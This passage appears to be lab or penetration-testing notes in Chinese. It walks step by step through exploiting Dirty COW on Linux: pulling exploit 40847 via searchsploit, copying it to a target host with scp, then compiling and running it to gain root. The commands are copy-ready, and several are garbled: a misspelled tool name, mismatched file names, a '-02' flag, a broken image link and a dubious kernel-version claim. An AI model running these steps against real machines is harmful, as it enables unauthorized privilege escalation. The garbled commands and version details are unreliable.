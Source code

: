 ![image](images/BJe3930L6.png)

#### Dirty COW
Linux 2.8版本以下就能嘗試

```
searchspoit -m 40847
```
![image]ttps://hackmd.io/_uloads/SkEr46RI6.png)

傳送檔案的其中一種方法
```
scp 4847.cpp aleklander@192.168.0.70:/路徑/
```

將payload放進目標機後
```
head 40847.cpp
```
![image](images/SyZ34TAI6.png)

執行腳本
```
g++ -Wall -pedantic -02 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```
```
./dcow -s
```
成功
